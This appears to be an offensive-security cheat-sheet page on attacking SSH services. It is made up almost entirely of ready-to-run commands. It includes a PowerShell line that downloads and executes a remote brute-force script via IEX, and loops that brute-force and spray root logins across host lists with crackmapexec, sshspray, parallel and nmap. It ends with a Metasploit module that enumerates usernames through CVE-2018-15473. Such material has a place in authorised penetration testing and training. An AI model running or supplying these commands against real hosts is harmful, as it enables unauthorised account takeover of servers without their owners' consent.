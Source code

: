 ```yaml
---
description: Secure Shell
---
```


# SSH




## Brute Force

- [https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer](https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer)

From Windows:

```
PS > curl https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe -o plink.exe
PS > IEX(New-Object Net.WebClient).DownloadString("https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer/raw/master/ssh-putty-brute.ps1")
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw 'Passw0rd!'
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw (gc .\passwords.txt)
```




## Password Spray / Key Spray

- [https://github.com/mcorybillington/sshspray](https://github.com/mcorybillington/sshspray)

A list of targets with different SSH ports:

```
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $1}' > ssh_hosts
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $2}' > ssh_ports
$ paste ssh_hosts ssh_ports | while read host port; do cme ssh $host -u root -p root --port $port; done
```

Spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u root -p 'Passw0rd!' --key-file id_rsa
```

Using sshspray:

```
$ python3 sshspray.py -u root -i ~/.ssh/id_rsa -t ssh.txt
$ parallel --eta -j3 python3 sshspray.py -i {} -u root -t ssh.txt ">" output_{}.log  ::: id_rsa1 id_rsa2 id_rsa3
```

Using Nmap:

```
$ nmap -p 22 --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" 192.168.1.11
```




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
